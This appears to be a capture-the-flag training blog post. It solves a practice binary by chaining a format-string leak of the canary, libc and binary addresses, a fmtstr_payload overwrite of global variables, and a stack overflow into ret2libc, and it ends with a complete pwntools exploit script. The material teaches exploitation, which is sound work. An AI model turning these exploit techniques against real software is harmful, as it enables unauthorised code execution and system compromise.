 ```yaml
---
title: "Checkpoint [train 4]"
draft: false
tags: ["pwn", "training"]
date: 2024-01-04
series: ["pwn training"]
series_order: 4
level: Intermediate
description: This level acts as a checkpoint (name suggests). You will be combining the idea of format strings, buffer overflows, canaries from previous blogposts.
---
```


Congrats on reaching this level. This level acts as a checkpoint (name suggests). You will be combining the idea of format strings, buffer overflows, canaries from previous blogposts. Try this level on your own and check for hints when stuck.
<!--more-->

# Challenge:
Download below challenge file.

[FILES](/images/pwn-train4/checkpoint_1.zip)

# Solution:

## Mitigations:
![](/images/pwn-train4/ss2.png)
No need to explain mitigations right ? These are different protections created to rule out certain types of attacks, make hackers life a little harder.

## Code Walkthrough:

We are given the c code. Here in the main program, there is a while loop to run the format string vulnerability and finally a compare statement leading to a fgets call.

![](/images/pwn-train4/ss3.png)

## Sample run:
Runing the file tells us there is a format string exploit.
![](/images/pwn-train4/ss4.png)


## Exploit idea:
Here the challenge is direct and was made to recap what we learnt in the previous blogs. The attack plan is
* leaking a binary address, libc address, canary.
* make the strength variable = "STRENGTH"
* increase the size variable to a much larger value for a buffer overflow. (tricky part)

## Format string exploit:

We already know what format strings are... now leak the stack little by little and see what useful values you get. I got the following values:

```leak
16: my input
49: canary
51: a libc address
56: a binary address
```

Now you got the values so calculate the address relatively with the binary/libc or initialise the binary and libc as elf with the help of pwntools ELF() function.

```py
#Need to know the libc. (used by default libc for local purpose)
elf.address = int((str(leak[2])[4:-3]), 16) - elf.sym.__libc_csu_init
libc.address = int((str(leak[1])[4:-1]), 16) - 159923
canary = int((str(leak[0])[4:-1]), 16)
#My weird way of receiving and splitin.
```

## Formats again:
The second task was to change the value of the global variables and make it favourable for us.

```py
fmt = fmtstr_payload(16, {
    elf.sym.size: 500,
    elf.sym.strength: u64(b"STRENGTH"),
})
```
Here I am making the size variable much larger than buffer size, making strength variable equal to "STRENGTH" to pass the check.

## Buffer Overflow:
Finally you do a bit of fiddling to get the correct offset of the stack canary and overwrite with the leaked canary, then simply do a ret2libc.

## Exploit:
```py

from pwn import *

exe = './checkpoint'
context.binary = elf = ELF(exe)

libc = "/usr/lib/x86_64-linux-gnu/libc.so.6"
if(libc != ""):
	libc = ELF(libc)

def start(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

gdbscript = '''
b* main
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

'''
NOTES:
16: my input
49: canary
51: a libc address
56: a binary address
'''

p = start()

p.recv()
p.sendline(b"%49$p-%51$p-%56$p")
leak = p.recvline().split(b"-")

elf.address = int((str(leak[2])[4:-3]), 16) - elf.sym.__libc_csu_init
libc.address = int((str(leak[1])[4:-1]), 16) - 159923
canary = int((str(leak[0])[4:-1]), 16)

log.info(f"elf base: {hex(elf.address)}")
log.info(f"libc base: {hex(libc.address)}")

fmt = fmtstr_payload(16, {
    elf.sym.size: 500,
    elf.sym.strength: u64(b"STRENGTH"),
})

p.recv()
p.sendline(b"y")
p.send(fmt)

p.recv()
p.sendline(b"$p")
p.sendline(b"n")
p.sendline(b"A"*0x158 + p64(canary) + p64(0) + p64(elf.address + 0x1016) + p64(elf.address+0x151b)+ p64(next(libc.search(b'/bin/sh'))) + p64(libc.sym.system))

p.interactive()

```

This was short and crisp since all these topics are already covered in the rest of the blogs. Happy Hacking.